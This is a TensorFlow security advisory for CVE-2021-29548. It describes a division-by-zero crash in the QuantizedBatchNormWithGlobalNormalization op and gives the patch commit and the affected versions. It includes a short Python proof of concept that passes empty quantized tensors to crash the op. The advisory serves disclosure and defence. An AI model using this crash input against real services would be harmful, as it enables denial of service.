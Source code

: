 ## TFSA-2021-036: Division by 0 in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29548

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import tensorflow as tf

t = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.quint8)
t_min = tf.constant(-10.0, dtype=tf.float32)
t_max = tf.constant(-10.0, dtype=tf.float32)
m = tf.constant([], shape=[0], dtype=tf.quint8)
m_min = tf.constant(-10.0, dtype=tf.float32)
m_max = tf.constant(-10.0, dtype=tf.float32)
v = tf.constant([], shape=[0], dtype=tf.quint8)
v_min = tf.constant(-10.0, dtype=tf.float32)
v_max = tf.constant(-10.0, dtype=tf.float32)
beta = tf.constant([], shape=[0], dtype=tf.quint8)
beta_min = tf.constant(-10.0, dtype=tf.float32)
beta_max = tf.constant(-10.0, dtype=tf.float32)
gamma = tf.constant([], shape=[0], dtype=tf.quint8)
gamma_min = tf.constant(-10.0, dtype=tf.float32)
gamma_max = tf.constant(-10.0, dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/tensorflow/core/kernels/quantized_batch_norm_op.cc)
does not validate all constraints specified in the [op's
contract](https://www.tensorflow.org/api_docs/python/tf/raw_ops/QuantizedBatchNormWithGlobalNormalization).

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/tensorflow/tensorflow/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

